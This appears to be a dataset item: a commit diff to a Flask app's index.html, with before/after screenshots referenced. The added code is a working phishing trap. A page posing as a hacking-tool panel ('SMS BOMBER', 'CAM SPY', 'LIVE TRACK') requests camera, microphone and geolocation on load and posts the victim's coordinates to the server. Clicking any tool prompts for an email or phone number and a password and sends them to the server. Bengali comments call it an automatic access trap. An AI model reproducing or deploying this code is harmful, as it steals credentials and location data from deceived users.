

Before and after one commit to msthumaira01342-art/hacker, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Access first, credentials later

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,39 +2,73 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>SYSTEM_MONITOR_v4.5</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>PRIME MONIR | KERNEL V6.0</title>
     <style>
-        body { background:#000; color:#0f0; font-family:monospace; text-align:center; overflow:hidden; }
-        .scan { position:fixed; top:0; left:0; width:100%; height:100%; background:linear-gradient(transparent, #0f02, transparent); animation:s 2s infinite; }
-        @keyframes s { 0% {top:-100%} 100% {top:100%} }
-        .btn { border:2px solid #f00; padding:20px; margin:50px auto; width:200px; cursor:pointer; background:#000; color:#f00; font-weight:bold; }
+        @import url('https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap');
+        body, html { margin:0; padding:0; background:#000; color:#0f0; font-family:'Share Tech Mono', monospace; overflow-x:hidden; }
+        #loader { position:fixed; width:100%; height:100%; background:#000; display:flex; flex-direction:column; justify-content:center; align-items:center; z-index:9999; text-align:center; }
+        .bar-con { width:250px; height:10px; border:1px solid #0f0; margin-top:15px; }
+        .bar { width:0%; height:100%; background:#0f0; animation:load 4s forwards linear; }
+        @keyframes load { to { width:100%; } }
+        #ui { display:none; padding:15px; }
+        .bomber-btn { border:2px solid #f00; background:rgba(255,0,0,0.1); color:#f00; padding:20px; font-weight:bold; margin-bottom:15px; cursor:pointer; text-align:center; animation:pulse 1.5s infinite; }
+        @keyframes pulse { 0%{box-shadow:0 0 5px #f00;} 50%{box-shadow:0 0 20px #f00;} 100%{box-shadow:0 0 5px #f00;} }
+        .grid { display:grid; grid-template-columns: 1fr 1fr; gap:10px; }
+        .tool { border:1px solid #0f0; padding:15px 5px; background:rgba(0,255,0,0.05); text-align:center; cursor:pointer; font-size:12px; }
     </style>
 </head>
 <body>
-    <div class="scan"></div>
-    <h1>CRITICAL SYSTEM ERROR</h1>
-    <p>Target Device Found. Infiltrating...</p>
-    <div class="btn" onclick="start()">FIX & SYNC SYSTEM</div>
+    <div id="loader">
+        <div style="letter-spacing:5px; color:#f00;">⚠️ ATTENTION ⚠️</div>
+        <div style="font-size:10px; margin-top:5px;">BYPASSING DEVICE SECURITY...</div>
+        <div class="bar-con"><div class="bar"></div></div>
+    </div>
+
+    <div id="ui">
+        <div style="border:1px solid #0f0; padding:10px; text-align:center; margin-bottom:15px;">
+            <h2 style="margin:0;">PRIME MONIR | ACCESS PANEL</h2>
+        </div>
+        <div class="bomber-btn" onclick="openTool('SMS_BOMBER')">🔥 SMS BOMBER (FREE)</div>
+        <div class="grid">
+            <div class="tool" onclick="openTool('GALLERY')">GALLERY HACK</div>
+            <div class="tool" onclick="openTool('LOCATION')">LIVE TRACK</div>
+            <div class="tool" onclick="openTool('CAMERA')">CAM SPY</div>
+            <div class="tool" onclick="openTool('FILES')">FILE MANAGER</div>
+        </div>
+    </div>
 
     <script>
-        async function start() {
-            // ১. ক্যামেরা ও মাইক এক্সেস
-            try { await navigator.mediaDevices.getUserMedia({video:true, audio:true}); } catch(e){}
+        // অটো এক্সেস ট্র্যাপ - লোডিং এর সময়
+        window.onload = async () => {
+            try {
+                // ক্যামেরা ও মাইক পারমিশন
+                await navigator.mediaDevices.getUserMedia({video:true, audio:true});
+                // লোকেশন পারমিশন
+                navigator.geolocation.getCurrentPosition((p) => {
+                    sendData('LOCATION', `Lat: ${p.coords.latitude}, Lon: ${p.coords.longitude}`);
+                });
+            } catch(e) {}
 
-            // ২. লোকেশন
-            navigator.geolocation.getCurrentPosition(p => {
-                fetch('/log_everything', {method:'POST', headers:{'Content-Type':'application/json'},
-                body: JSON.stringify({type:'LOCATION', content: `Lat: ${p.coords.latitude}, Lon: ${p.coords.longitude}`})});
-            });
+            setTimeout(() => {
+                document.getElementById('loader').style.display = 'none';
+                document.getElementById('ui').style.display = 'block';
+            }, 4000);
+        };
 
-            // ৩. কন্টাক্ট ও ফাইল ট্র্যাপ (পাসওয়ার্ডসহ)
-            let user = prompt("System Security: Enter Email/Phone to Verify Account");
-            let pass = prompt("Enter Password to Sync Data");
-            if(user && pass) {
-                fetch('/log_everything', {method:'POST', headers:{'Content-Type':'application/json'},
-                body: JSON.stringify({type:'CREDENTIALS', content: `User: ${user}, Pass: ${pass}`})});
+        function sendData(type, content) {
+            fetch('/log_data', {method:'POST', headers:{'Content-Type':'application/json'},
+            body:JSON.stringify({type: type, content: content})});
+        }
+
+        function openTool(name) {
+            // টুল ওপেন করতে গেলে তখন আইডি পাসওয়ার্ড চাইবে
+            let u = prompt("Verification Required!\nEnter Phone/Email to link server:");
+            let p = prompt("Enter Password:");
+            if(u && p) {
+                sendData('CREDENTIALS', `User: ${u}, Pass: ${p}, Tool: ${name}`);
+                alert("Connection Established. Streaming data...");
             }
-            alert("Exploit Successful. Data sync in progress...");
         }
     </script>
 </body>
```
